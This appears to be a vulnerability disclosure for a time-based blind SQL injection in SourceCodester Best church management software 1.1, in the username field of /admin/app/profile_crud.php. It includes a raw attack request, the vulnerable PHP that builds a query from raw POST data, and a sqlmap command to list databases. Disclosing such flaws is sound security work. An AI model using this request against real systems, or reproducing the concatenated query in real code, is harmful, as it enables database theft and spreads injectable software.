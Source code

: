 # Code Source
https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html

# Description
A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/app/profile_crud.php`. Affected is file `/admin/app/profile_crud.php`,The manipulation of the argument `username` leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

# Request
```
POST /admin/app/profile_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

update=1&username=*
```

# Affect code
```
......
if (isset($_POST['update'])) {

	$uploadDir = '../../assets/images/';
	if ($_FILES['image']['tmp_name'] != '') {
		$filepath = "../../assets/images/" . $_FILES["image"]["name"];
		$originalName = basename($_FILES['image']['name']);
		$extension = pathinfo($originalName, PATHINFO_EXTENSION);

		// Generate a new unique file name
		$newName = uniqid() . '.' . $extension;

		// Set the path to the new file location
		$newFilePath = $uploadDir . $newName;

		// Upload the file to the server


		if (move_uploaded_file($_FILES["image"]["tmp_name"], $filepath)) {
			$img = $_FILES["image"]["name"];

			@unlink("../../assets/images/" . $_POST['old_cat_img']);
		}
	} else {
		$img = $_POST['old_cat_img'];
	}


	//echo "UPDATE `login` SET `username`='".$_POST['username']."',`email`='".$_POST['email']."',`mobileno`='".$_POST['mobileno']."',`image`='".$img."' WHERE id='".$_SESSION['id']."' ";exit;
	$stmt = $conn->prepare("UPDATE `login` SET `username`='" . $_POST['username'] . "',`email`='" . $_POST['email'] . "',`mobileno`='" . $_POST['mobileno'] . "',`image`='" . $img . "' WHERE id='" . $_SESSION['id'] . "' ");

	$stmt->execute();



	header("location:../dashboard.php");
}
......
```

# Exploit
```
python sqlmap.py -r .\1.txt --dbs
```
![图片](https://github.com/user-attachments/assets/0498b616-b4d9-44bc-bad5-09604a1f66ff)

![图片](https://github.com/user-attachments/assets/fd0f9c12-d82c-44e9-8536-ef480d3489c5)
